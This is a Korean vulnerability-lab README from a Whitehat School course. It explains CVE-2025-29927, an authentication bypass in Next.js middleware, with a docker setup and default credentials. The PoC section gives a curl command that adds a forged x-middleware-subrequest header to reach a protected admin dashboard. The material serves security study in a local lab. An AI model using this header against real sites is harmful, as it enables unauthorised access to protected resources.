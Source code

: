 # Next.js 미들웨어 인증 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 33반- [권태연(@nostheblack)]
(https://github.com/nostheblack/kr-vulhub/tree/main/KwonTaeyeon/next.js/CVE-2025-29927)

<br/>

## 개요
- ​CVE-2025-29927은 Next.js의 미들웨어 시스템에서 발견된 심각한 인증 우회 취약점으로, 공격자가 내부용으로 설계된 x-middleware-subrequest HTTP 헤더를 악용하여 미들웨어를 우회하고 보호된 경로에 무단으로 접근할 수 있다.

-  Next.js의 미들웨어를 사용할 경우, 사용자가 특정 페이지나 API 경로에 대한 접근을 하기 전 세션 쿠키가 유효한지 확인하고 필요한 권한을 부여한다.

-  무한 루프를 방지하기 위해 내부적으로 사용하는 x-middleware-subrequest 헤더를 외부에서도 조작할 수 있어, 공격자가 이를 포함한 요청을 보내면 미들웨어가 해당 요청을 내부 요청으로 오인하여 인증 및 권한 부여 절차를 건너뛴다. 이로 인해 인증되지 않은 사용자가 보호된 리소스에 접근할 수 있다.

<br/>

## 환경 구축

- `docker compose up -d`  입력을 통해 취약한 환경을 세팅한다.

![alt text](image-1.png)

- 웹 브라우저에서 다음 주소로 접속한다.
 (기본 id/pw는 admin/password 이다.)

```http://localhost:3000```

<br/>

## PoC

- 만약 자격 증명 없이 dashboard에 접근한다면, 로그인페이지로 연결된다 :


    ```curl -i http://localhost:3000```


![alt text](image-3.png)




- 이 취약점을 악용하려면, 요청(request)에 `x-middleware-subrequest`라는 헤더를 추가하고 그 값으로 
`middleware:middleware:middleware:middleware:middleware`를 설정한다.그러면 Next.js의 미들웨어가 이 헤더를 잘못 처리해서 인증 검사를 우회하게 된다.



    ```curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000```



![alt text](image-2.png)



- HTTP 응답이 HTTP/1.1 200 OK로, 우회에 성공한 것을 볼 수 있고 admin Dashboard HTML을 표시하고 있다.


<br/>

## 참고 자료
- https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927
- https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware


